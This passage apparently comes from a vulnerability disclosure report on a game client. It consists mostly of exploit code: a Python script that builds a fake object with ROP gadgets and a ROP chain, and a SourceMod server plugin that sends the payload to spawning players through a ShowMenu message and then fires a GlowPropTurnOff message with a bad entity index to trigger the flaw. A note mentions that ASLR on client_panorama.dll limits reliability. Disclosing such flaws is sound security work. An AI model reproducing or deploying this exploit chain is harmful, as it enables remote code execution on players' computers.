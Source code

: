 ```py
fakeobj += to_unicode(FAKE_OBJ + 4)
fakeobj += to_unicode(FAKE_OBJ + 4 * 2)
fakeobj += to_unicode(GADGET_POP_ESP)
fakeobj += to_unicode(FAKE_OBJ + 4 * 10)
fakeobj += u'\u4141\u4141'
fakeobj += u'\u4242\u4242'
fakeobj += u'\u4343\u4343'
fakeobj += u'\u4444\u4444'
fakeobj += u'\u4545\u4545'
fakeobj += to_unicode(GADGET_XCHG_EAX_ESP)
fakeobj += rop

fakeobj = fakeobj.encode('utf-8')

print(''.join(['\\x%02x' % ord(c) for c in fakeobj]))
```

*Note*: As in #470520 the script above needs to know the base address of the client's `client_panorama.dll` module in order to be 100% reliable, however it isn't possible to this due to ASLR.

Next, this payload needs to be sent to the client. I did this using the following SourceMod plugin:
```cpp
#include <sdktools>

public void OnPluginStart()
{
	HookEvent( "player_spawn", Event_PlayerSpawn );
}

public Action Event_PlayerSpawn( Event event, const char[] name, bool dontBroadcast )
{
    int client = GetClientOfUserId( event.GetInt( "userid" ) );
	
	{
		char payload[] = "PLACE PAYLOAD HERE";
	
		Protobuf msg = UserMessageToProtobuf( StartMessageOne( "ShowMenu", client ) );
		msg.SetInt( "bits_valid_slots", 0xFFFFFFFF );
		msg.SetInt( "display_time", 0 );
		msg.SetString( "menu_string", payload );
		EndMessage();
	}
	
	{
		Protobuf msg = UserMessageToProtobuf( StartMessageOne( "GlowPropTurnOff", client ) );
		msg.SetInt( "entidx", 0xfe43167 );
		EndMessage();
	}

	return Plugin_Continue;
}
```
